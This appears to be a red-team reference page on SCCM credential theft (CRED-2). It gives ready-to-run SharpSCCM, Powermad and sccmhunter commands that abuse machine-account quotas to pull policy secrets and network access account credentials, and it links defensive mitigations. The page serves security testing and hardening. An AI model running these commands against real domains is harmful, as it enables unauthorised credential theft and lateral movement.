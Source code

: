 # CRED-2 - Policy Request Credentials

## Document Reference

* [CRED-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-2/cred-2\_description.md)

## Description

Request computer policy and deobfuscate secrets

## Requirements

* PKI certificates are not required for client authentication

Additionally, any of the below requirements can be met to perform this attack.

* Domain Computer credentials&#x20;
* The ability to create computer objects (MachineAccountQuota)
* Local administrator on a SCCM client

## Windows

### Local Administrator on SCCM Client

If you are a local administrator or running as SYSTEM on a SCCM client. We can simply request the computer policy without specifying any credentials

```
SharpSCCM.exe get secrets
```

### Using Domain Computer Credentials

If we have a password for a domain computer account we can use this directly with SharpSCCM to register a new device

```powershell
SharpSCCM.exe get secrets -r EvilDevice -u mecm$ -p 'I(A*r@KqUuoj5oHFO=<--Snip>-->'
```

### Machine Account Quota

Create new machine account with Powermad

```powershell
New-MachineAccount -MachineAccount  EvilSCCM$ -Domain sccm.lab -DomainController 192.168.60.10
```

Use SharpSCCM to request policy for the new account

```powershell
# get secrets is preferred over naa due to secrets potentially containing further
# credentials from task sequences and collection varaibles

SharpSCCM.exe get secrets -r newdevice -u EvilSCCM$ -p Evil123
SharpSCCM.exe get naa -r newdevice -u EvilSCCM$ -p Evil123
```

<figure><img src="../../../.gitbook/assets/image (2138).png" alt=""><figcaption></figcaption></figure>

## Linux

### SCCMhunter

{% code overflow="wrap" %}
```python
# auto, requires user credentials and MachineAccountQuota greater than 0
python3 sccmhunter.py http -u standard-user -p 'Password1!' -d sccm.lab -dc-ip 192.168.60.10 -auto -sleep 30

# Manual, requires user credentials and computer account credentials
python3 sccmhunter.py http -u standard-user -p 'Password1!' -d sccm.lab -dc-ip 192.168.60.10 -cn 'EvilRiley$' -cp Evil123 -sleep 30
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2148).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
This will create a device object within SCCM. Ensure that when on an engagement, the client is informed and request for it to be deleted once completed.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (2139).png" alt=""><figcaption></figcaption></figure>

*   ### Defensive IDs

    * [PREVENT-3: Harden or disable network access accounts](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-3/prevent-3\_description.md)
    * [PREVENT-4: Configure Enhanced HTTP](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-4/prevent-4\_description.md)
    * [PREVENT-8: Require PKI certificates for client authentation](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-8/prevent-8\_description.md)
    * [PREVENT-10: Enforce the principle of least privilege for accounts](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-10/prevent-10\_description.md)
    * [PREVENT-16: Remove SeMachineAccountPrivilege and set MachineAccountQuota to 0 for non-admin accounts](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-16/prevent-16\_description.md)

    \
